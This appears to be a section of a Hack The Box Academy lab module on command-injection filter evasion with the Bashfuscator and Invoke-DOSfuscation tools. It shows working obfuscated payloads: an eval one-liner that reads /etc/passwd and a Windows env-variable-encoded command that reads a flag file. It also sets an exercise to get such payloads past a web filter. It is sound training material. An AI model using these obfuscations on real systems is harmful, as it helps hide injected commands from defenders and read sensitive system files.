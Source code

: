 # Evasion Tools

---

If we are dealing with advanced security tools, we may not be able to use basic, manual obfuscation techniques. In such cases, it may be best to resort to automated obfuscation tools. This section will discuss a couple of examples of these types of tools, one for `Linux` and another for `Windows.`

---

## Linux (Bashfuscator)

A handy tool we can utilize for obfuscating bash commands is [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator). We can clone the repository from GitHub and then install its requirements, as follows:

Evasion Tools

```shell-session
swmpdnky@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
swmpdnky@htb[/htb]$ cd Bashfuscator
swmpdnky@htb[/htb]$ pip3 install setuptools==65
swmpdnky@htb[/htb]$ python3 setup.py install --user
```

Once we have the tool set up, we can start using it from the `./bashfuscator/bin/` directory. There are many flags we can use with the tool to fine-tune our final obfuscated command, as we can see in the `-h` help menu:

Evasion Tools

```shell-session
swmpdnky@htb[/htb]$ cd ./bashfuscator/bin/
swmpdnky@htb[/htb]$ ./bashfuscator -h

usage: bashfuscator [-h] [-l] ...SNIP...

optional arguments:
  -h, --help            show this help message and exit

Program Options:
  -l, --list            List all the available obfuscators, compressors, and encoders
  -c COMMAND, --command COMMAND
                        Command to obfuscate
...SNIP...
```

We can start by simply providing the command we want to obfuscate with the `-c` flag:

Evasion Tools

```shell-session
swmpdnky@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'

[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```

However, running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred characters to over a million characters! So, we can use some of the flags from the help menu to produce a shorter and simpler obfuscated command, as follows:

Evasion Tools

```shell-session
swmpdnky@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```

We can now test the outputted command with `bash -c ''`, to see whether it does execute the intended command:

Evasion Tools

```shell-session
swmpdnky@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

We can see that the obfuscated command works, all while looking completely obfuscated, and does not resemble our original command. We may also notice that the tool utilizes many obfuscation techniques, including the ones we previously discussed and many others.

Exercise: Try testing the above command with our web application, to see if it can successfully bypass the filters. If it does not, can you guess why? And can you make the tool produce a working payload?

---

## Windows (DOSfuscation)

There is also a very similar tool that we can use for Windows called [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). Unlike `Bashfuscator`, this is an interactive tool, as we run it once and interact with it to get the desired obfuscated command. We can once again clone the tool from GitHub and then invoke it through PowerShell, as follows:

Evasion Tools

```powershell-session
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation
```

We can even use `tutorial` to see an example of how the tool works. Once we are set, we can start using the tool, as follows:

Evasion Tools

```powershell-session
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```

Finally, we can try running the obfuscated command on `CMD`, and we see that it indeed works as expected:

Evasion Tools

```cmd-session
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag
```

Tip: If we do not have access to a Windows VM, we can run the above code on a Linux VM through `pwsh`. Run `pwsh`, and then follow the exact same command from above. This tool is installed by default in your \`Pwnbox\` instance. You can also find installation instructions at this [link](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-linux).

For more on advanced obfuscation methods, you may refer to the [Secure Coding 101: JavaScript](https://academy.hackthebox.com/course/preview/secure-coding-101-javascript) module, which covers advanced obfuscations methods that can be utilized in various attacks, including the ones we covered in this module.